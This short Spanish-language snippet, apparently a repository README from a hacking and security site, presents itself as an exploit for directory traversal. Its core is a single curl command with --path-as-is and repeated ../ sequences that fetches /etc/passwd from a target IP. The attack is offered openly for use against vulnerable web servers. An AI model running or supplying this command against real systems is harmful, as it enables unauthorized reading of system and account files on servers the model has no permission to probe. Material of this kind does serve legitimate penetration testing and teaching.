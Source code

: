 # directoriotrasversal
#
# Exploits para extraer por http la password en la carperta Linux /etc/passwd, en paginas vulnerables a directorio traversal.
#

curl --path-as-is -I http://ip:80/../../../../../etc/passwd

www.hackingyseguridad.com

Codigos de respuesta HTTP https://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html
